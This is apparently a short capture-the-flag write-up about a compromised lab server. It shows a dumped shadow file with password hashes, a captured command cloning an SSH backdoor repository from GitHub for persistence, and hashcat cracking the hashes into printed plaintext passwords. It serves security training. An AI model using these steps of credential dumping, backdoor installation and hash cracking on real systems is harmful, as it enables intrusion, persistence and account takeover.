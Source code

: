 ```
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

<git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
```
Lol it's james's fault again

Backdoor = persistence

Ok time to crack them hashes

```
└──╼ $hashcat -m 1800 hashes.txt /usr/share/wordlists/fasttrack.txt
hashcat (v6.1.1) starting...

...

james: 

paradox: secuirty3

szymex: abcd123

bee: secret12

muirland: 1qaz2wsx

```
